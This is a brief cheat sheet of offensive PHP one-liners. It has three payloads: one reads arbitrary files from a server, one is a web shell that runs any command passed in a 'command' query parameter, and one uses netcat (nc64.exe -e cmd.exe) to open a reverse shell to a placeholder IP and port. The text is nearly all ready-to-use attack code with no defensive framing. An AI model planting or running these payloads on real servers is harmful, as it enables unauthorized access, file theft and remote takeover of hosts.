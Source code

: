 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter: _(exploit.php?command=whoami)_

`<?php echo system($_GET['command']); ?>`

Execute commands on the host:

`<?php $out=shell_exec('nc64.exe IP PORT -e cmd.exe'); echo '<pre>'.$out.'</pre>'; ?>`

